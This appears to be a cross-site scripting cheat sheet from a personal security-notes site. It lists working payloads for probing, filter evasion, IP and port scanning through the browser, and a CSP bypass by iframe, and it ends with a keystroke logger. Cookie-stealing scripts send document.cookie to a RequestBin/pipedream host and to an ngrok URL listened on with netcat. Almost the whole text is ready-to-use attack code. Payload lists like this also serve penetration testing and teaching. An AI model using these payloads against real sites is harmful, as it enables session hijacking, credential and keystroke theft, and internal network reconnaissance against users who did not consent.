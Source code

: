 ```yaml
---
layout: post
title: "xss"
keywords: "xss, iframe, cookie"
---
```

#### Identification
Check the context (inspect element)
```
<u>xss</u>
<script>alert(1)</script>
xss"><script>alert(1)</script>
</title><script>alert(1)</script>
xss%27;+alert(1);//xss
```

#### Filter Evasion
```
<img src=x onerror="alert('xss')" />
<img src=x onerror=confirm('xss')" />
<object onerror=alert('xss')>
<img src=x onerror="eval(String.fromCharCode(97,108,101,114,116,40,39,72,101,108,108,111,39,41))";>
<style>@keyframes slidein {}</style><xss style="animation-duration:1s;animation-name:slidein;animation-iteration-count:2" onanimationiteration="alert('xss')"></xss>
```

#### Redirect Cookie Grabber
[Create new public RequestBin](https://requestbin.com/r)
```
<script>window.location='https://en52dhl6gyckw.x.pipedream.net/?cookie='+document.cookie</script>
<script>document.location='https://en52dhl6gyckw.x.pipedream.net/?cookie='+document.cookie</script>
```

#### Grab Machine IP Address (Reflected)
```
https://target/?payload=%3Cscript%3Ealert(window.location.hostname)%3C/script%3E
```

#### DOM-Based XXS
```
pwn" onmouseover="alert('xss')
```

#### IP and Port Scanning with XSS
```
<img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">

<script>
    for (let i = 0; i < 256; i++) { // This is looping from 0 to 255
        let ip = '192.168.0.' + i // Creates variable for forming IP
        // Creating an image element, if the resource can load, it logs to the /logs page.
        let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
        document.body.innerHTML += code // This is adding the image element to the webpage
    }
</script> 
```

#### Bypass CSP and steal cookie using iframe

```
# Listener
nc -klnvp 9000
ngrok http 9000

# XSS
<iframe src="http://localhost:1337/list?callback=window.parent.location.href%3D`http://4ea69d0ff8e3.ngrok.io?c=%24%7Bdocument.cookie%7D`;display"></iframe>
```

#### Keylogger
```
<script type="text/javascript">
    let l = ""; // Variable to store key-strokes in
    document.onkeypress = function (e) { // Event to listen for key presses
        l += e.key; // If user types, log it to the l variable
        console.log(l); // update this line to post to your own server
    }
</script> 
```